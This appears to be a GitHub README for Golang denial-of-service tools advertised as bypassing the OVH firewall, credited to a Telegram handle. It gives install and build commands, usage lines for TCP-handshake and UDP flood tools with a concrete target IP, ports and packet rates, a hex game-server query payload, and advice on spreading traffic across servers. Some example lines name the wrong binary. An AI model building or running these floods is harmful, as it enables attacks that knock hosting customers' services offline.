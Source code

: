 <h2>Golang OVH Bypasses</h2>

<h3>Coded by forky (tg: @yfork)</h3>

<h4>Those scripts are made to bypass OVH firewall</h4>


<h1>Installation:</h1>

```sh
apt install snap snapd -y
snap install go --classic
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
go build tcp.go
go build udp.go
go build udprand.go
```

<h3>TCP Handshake usage</h3><br>

```json
./tcp <target> <tcp-port> <packets-per-second>
./tcp 145.239.54.169 80 10000
```

<h3>UDP with TCP Handshake and random data usage</h3><br>

```json
./udprand <target> <tcp-port> <udp-port> <packets-per-second>
./tcp 145.239.54.169 80 1194 8000
```

<h3>UDP with TCP Handshake and custom data usage</h3><br>

```json
./udprand <target> <tcp-port> <udp-port> <packets-per-second> <udp-payload>
./tcp 145.239.54.169 80 1194 8000 ffffffff54536f7572636520456e67696e6520517565727900
```

## We recommend using a low amount of PPS per server (10000 p/s max)
